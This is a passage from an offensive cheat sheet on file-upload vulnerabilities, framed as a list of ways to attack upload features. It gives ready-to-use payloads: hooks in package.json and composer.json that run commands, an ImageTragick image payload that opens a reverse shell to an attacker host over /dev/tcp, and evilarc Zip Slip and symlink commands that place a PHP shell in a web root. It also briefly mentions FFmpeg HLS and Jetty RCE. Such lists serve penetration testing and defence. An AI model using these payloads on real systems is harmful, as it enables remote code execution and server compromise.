 Alternatively you may be able to upload a JSON file with a custom scripts, try to overwrite a dependency manager configuration file.

- package.json
    
    ```js
    "scripts": {
        "prepare" : "/bin/touch /tmp/pwned.txt"
    }
    ```
    
- composer.json
    
    ```js
    "scripts": {
        "pre-command-run" : [
        "/bin/touch /tmp/pwned.txt"
        ]
    }
    ```
    

### CVE - Image Tragik

Upload this content with an image extension to exploit the vulnerability (ImageMagick , 7.0.1-1)

```powershell
push graphic-context
viewbox 0 0 640 480
fill 'url(https://127.0.0.1/test.jpg"|bash -i >& /dev/tcp/attacker-ip/attacker-port 0>&1|touch "hello)'
pop graphic-context
```

More payload in the folder `Picture Image Magik`

### CVE - FFMpeg

FFmpeg HLS vulnerability

### ZIP archive

When a ZIP/archive file is automatically decompressed after the upload

- Zip Slip: directory traversal to write a file somewhere else
    
    ```python
    python evilarc.py shell.php -o unix -f shell.zip -p var/www/html/ -d 15
    
    ln -s ../../../index.php symindex.txt
    zip --symlinks test.zip symindex.txt
    ```
    

### Jetty RCE

Upload the XML file to `$JETTY_BASE/webapps/`
